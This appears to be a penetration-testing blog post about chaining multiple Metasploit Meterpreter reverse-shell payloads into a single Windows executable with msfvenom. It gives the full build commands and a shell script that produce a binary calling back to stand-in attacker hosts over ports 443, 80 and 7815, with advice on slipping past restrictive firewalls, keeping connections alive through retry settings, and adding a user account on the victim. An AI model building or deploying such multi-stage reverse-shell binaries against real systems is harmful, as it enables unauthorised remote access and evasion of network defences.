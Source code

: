 = Metasploit Payloads Explained - Part 1b
:hp-tags: metasploit, payloads

This series was interrupted a bit by the new Metasploit HTTP/HTTPS payloads ([more info](https://community.rapid7.com/community/metasploit/blog/2011/06/29/meterpreter-httphttps-communication)). Definitely not complaining though as the new features *(as will be discussed in part 2) are some epic new additions to the payloads list. However an important change happened while the craziness over the new payloads was going on. ScriptJunkie snuck in an awesome change to msfvenom (a.k.a. msffsm).

Here is the link to the ticket about the change ([link](https://dev.metasploit.com/redmine/issues/4714)) and the revision ([r13057](https://dev.metasploit.com/redmine/projects/framework/repository/revisions/13057))

**TL;DR version**: This change allows you to put multiple payloads into one binary... ya.. awesomesauce.

He gives the following example:

```
ruby msfvenom -p windows/messagebox -f raw EXITFUNC=thread > /tmp/msgbox.raw
ruby msfvenom -p windows/meterpreter/reverse_tcp -f raw -t /tmp/msgbox.raw -k LHOST=192.168.0.102 EXITFUNC=thread > /tmp/rev102msgbox.raw
ruby msfvenom -p - -f exe < /tmp/rev102msgbox.raw > /tmp/rev102msgbox.exe
```

This example when 'rev102msgbox.exe' is run will pop up a message box with the default options (Hello, from MSF!) and throw a reverse)tcp connection to 192.168.0.102 over the default port of 4444.

This is great as an example and a good way to test to see if things are working, but I don't normally like to inform my victims that I'm there by saying hello (especially if I'm not there to see their faces).

So I thought that this would be a great way of throwing a bunch of payloads together to try a few of the tried and true ways of getting past restrictive networks all in one binary. I started off with 3 payloads:

* reverse_tcp_dns to port 7815
* reverse_tcp_dns to port 80
* reverse_https to port 443

I chose those because I can change the DNS to point to a new IP address in future without having to regenerate my binary and size really isn't a concern since I won't be using it in an exploit.

_(**SIDE NOT**E: The motive for the port 7815 one is because sometimes there are proxy settings for port 80 and 443 *which the new HTTP/HTTPS payloads can handle ('cept for Auth proxies)* but for some reason quite regularly companies will still allow odd ports to fly through unencumbered)_

Here is what I did:

```
./msfvenom -p windows/meterpreter/reverse_https -f raw LHOST=badguy.attacker.com LPORT=443 > /tmp/stage1.raw
./msfvenom -p windows/meterpreter/reverse_tcp_dns -f raw LHOST=badguy.attacker.com LPORT=80 -c /tmp/stage1.raw > /tmp/stage2.raw
./msfvenom -p windows/meterpreter/reverse_tcp_dns -f exe LHOST=badguy2.attacker.com LPORT=7815 -c /tmp/stage2.raw > /tmp/stage3.exe
```

Luckily (and you'll see why in a second) I forgot to set up a multi/handler on port 7815, which caused me to notice an issue. When one of the payloads failed to connect, '**ExitProcess**' was called, causing all of my payloads to die prematurely (even if they had already gotten the second stage).

I tried setting **AutoRunScript** to 'migrate -f' so that the payloads would migrate out into a new Notepad process. But the connection died too quickly and none of the payloads were fast enough at jumping ship.

**ReverseConnectRetries** to the rescue. This is an advanced setting for the reverse_tcp family (ipv6_tcp, nonx_tcp, ord_tcp, tcp, tcp_allports, tcp_dns) which tells the payload how many times to loop through the initial connection. This setting defaults to 5 but can be anything between 1 and 255. The 255 setting is special since it actually sets an infinite loop. Sweet, now our sinking should never call the ExitProcess command right? Not quite, reverse_https and reverse_http doesn't have this setting. We are still in a bit of a race condition if we want to use those payloads but it is a race we can win now at least.

I wrote a very simple batch file to generate my new binary when I need it (also so I don't have to remember all the commands):


```bash
#!/bin/bash

echo Building Stage 1
./msfvenom -p windows/meterpreter/reverse_https -f raw LHOST=badguy.attacker.com LPORT=443 > /tmp/stage1.raw

echo Building Stage 2
./msfvenom -p windows/meterpreter/reverse_tcp_dns -f raw LHOST=badguy.attacker.com ReverseConnectRetries=255 LPORT=80 -c /tmp/stage1.raw > /tmp/stage2.raw

echo Building Stage 3
./msfvenom -p windows/meterpreter/reverse_tcp_dns -f exe LHOST=badguy2.attacker.com ReverseConnectRetries=255 LPORT=7815 -c /tmp/stage2.raw > /tmp/stage3.exe

echo Cleaning up...
rm -rf /tmp/stage1.raw /tmp/stage2.raw

echo Done..
```

Plus it tells you whats going on and does a bit of clean up, leaving you with just your hydra-binary. One of the things I thought about adding was the cmd/windows/adduser payload just so if the user is an admin we can start our day off without having to add ourselves a user but I decided against it just for clean up and "noise" purposes.

(You'll also notice that one of the payloads is going somewhere else.. no reason to not give your payloads every chance of getting out) Sharing is caring right?
